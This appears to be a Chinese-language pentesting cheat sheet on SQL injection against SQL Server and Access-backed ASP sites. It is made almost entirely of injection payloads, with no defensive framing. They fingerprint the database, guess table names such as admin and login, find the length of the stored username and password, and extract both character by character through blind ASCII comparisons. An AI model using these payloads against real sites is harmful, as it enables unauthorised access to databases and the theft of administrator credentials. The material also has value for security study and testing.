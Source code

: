 # sqlserver
## 注入点寻找，判断和access一样
## 配置文件
`<%` \
`set conn =server.createobject("adodb.connection")` \
`conn.open "provider=sqloledb;source=local;uid=sa;pwd=*****;database-name"` \
`%>`
## 判断数据库
`and 1=(select count(*) from sysobjects)>0`  mssql数据库 \
`and 1=(select count(*) from msysobjects)>0`  access数据库
## 猜表名
`and 1=(select count(*) from admin)` \
`and 1=(select count(*) from login)`
## 猜列名
`and 1=(select count(user) from admin)` \
`and 1=(select count(password) from admin)`
## 猜第一个user的长度
`and 1=(select top 1 len(user) from admin)` \
`and 1=(select top 1 len(password) from admin)`
## 猜ascii值，再转成字符
`and 1=(select top 1 asc(mid(user,1,1)) from admin)>96` 第一个user的第一个字符的ascii
`and 1=(select top 1 asc(mid(user,2,1)) from admin)>55` 第一个user的第二个字符的ascii
`and 1=(select top 1 asc(mid(password,1,1)) from admin)>100` 第一个user对应的密码的第一个字符
